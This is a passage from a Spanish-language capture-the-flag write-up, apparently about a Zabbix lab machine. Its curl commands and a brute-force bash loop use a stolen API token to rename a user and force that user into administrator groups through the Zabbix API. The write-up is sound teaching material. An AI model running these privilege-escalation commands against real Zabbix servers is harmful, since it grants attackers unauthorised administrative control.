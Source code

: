 Vemos que nuestro nombre y apellido es "Matthew Smith", vamos a ver si lo podemos cambiar con la función "user.update":

```json
curl -s -X POST -H 'Content-Type: application/json-rpc' -d '{"jsonrpc":"2.0", "method": "user.update", "params":{"userid": "3", "name": "Samu", "surname": "Crow"},"auth": "f2a563bbb19368d87e93a8557032d9839f5ad9a7de8d22002fcae9577496deb7","id": 1}' http://10.10.11.50/zabbix/api_jsonrpc.php | jq
```

Nos da un output correcto, ahora repetimos el comando de antes a ver si se nos cambió el nombre y vemos que si:

![image](../zimages/Pasted_image_20250413163903.png)

# API Privilege Escalation

Si investigamos un poco la documentación de la API vemos que hay muchas formas de escalar nuestros privilegios para ser administrador. Yo en mi caso voy a meter al usuario matthew en el grupo de los administradores. 

En la documentación de la API vemos que necesitamos utilizar el parámetro "usrgrps" junto con un array que contenga el usrgrpid, que es el ID del grupo que queremos meternos. Como no sabemos ni tenemos forma aparente de conseguir ese ID, voy a probar con el número 1 que es el más evidente:

```bash
curl -s -X POST -H 'Content-Type: application/json-rpc' -d '{"jsonrpc": "2.0", "method": "user.update", "params":{"userid": "3", "usrgrps": [{"usrgrpid": 1}]}, "auth": "f2a563bbb19368d87e93a8557032d9839f5ad9a7de8d22002fcae9577496deb7", "id": 1}' http://10.10.11.50/zabbix/api_jsonrpc.php | jq
```

Pero vemos que nos da un error. Como no tenemos forma aparente de saber el ID del grupo de administradores, vamos a meternos en todos los grupos haciendo fuerza bruta utilizando un bucle for. Tendríamos que escapar todas las comillas de la data en json, para ello he utilizado una [web que convierte json a string](https://dadroit.com/json-to-string/):

```bash
for i in {0..50}; do solicitud=$(curl -s -X POST -H 'Content-Type: application/json-rpc' -d "{\"jsonrpc\": \"2.0\", \"method\": \"user.update\", \"params\":{\"userid\": \"3\", \"usrgrps\": [{\"usrgrpid\": $i}]}, \"auth\": \"f2a563bbb19368d87e93a8557032d9839f5ad9a7de8d22002fcae9577496deb7\", \"id\": 1}" http://10.10.11.50/zabbix/api_jsonrpc.php); [[ $solicitud != *\"error\"* ]] && echo -e "\n[+] Añadido al grupo con ID '$i'"; done
```

Si ejecutamos esto, nos añade a todos los grupos que hay del 0 al 50:
